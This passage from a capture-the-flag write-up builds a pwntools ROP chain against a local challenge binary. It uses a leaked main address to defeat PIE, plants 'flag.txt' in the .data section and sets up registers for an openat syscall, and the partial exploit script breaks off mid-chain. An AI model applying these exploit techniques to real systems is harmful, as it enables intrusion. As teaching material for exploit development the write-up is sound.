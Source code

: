 Since we set the context, we can use pwntool's ROP functionality to achieve this. The RAX argument for
an openat call is 257. We can then use ROP to set the RAX value:

```python
rop = ROP(exe)

rop.raw(rop.find_gadget(['pop rax', 'ret']))
rop.raw(257)
```

We can also set the rdi value to -100.
```python
rop.raw(rop.find_gadget(['pop rdi', 'ret']))
rop.raw(-100)
```

Now we've run into a serious issue. This argument doesn't take in a string, it takes in a pointer to a string. This means
we need to know the address of a string "flag.txt". We can't just put this string into our payload buffer and reference it
because we don't know the address of the stack.

However, if you remember earlier, the name buffer we filled with random data earlier didn't exist on the stack, it existed
in the .data section, which is at the same offset as the .text section (the section with the functions). This means, since we
know the location of main, we also know the location of the name buffer.

We can simply fill the name buffer with "flag.txt". The updated code now shows:

```python
from pwn import *

exe = context.binary = ELF("./chal")
p = process("./chal")

print(p.recvuntil(b"?\n"))

p.send(b"flag.txt" + b"\x00" + b"\n")

# Now we will extract the main address
print(p.recvuntil(b";)\n"))
raw_addr = p.recvuntil(b"\n")[:-1]
main_address = int(raw_addr, 16)

# Set the base address for the context
exe.address = main_address - exe.symbols['main']

payload = b"\x90"*280

rop = ROP(exe)

# openat gadget
rop.raw(rop.find_gadget(['pop rax', 'ret']))
rop.raw(257)
rop.raw(rop.find_gadget(['pop rdi', 'ret']))
rop.raw(-100)
```
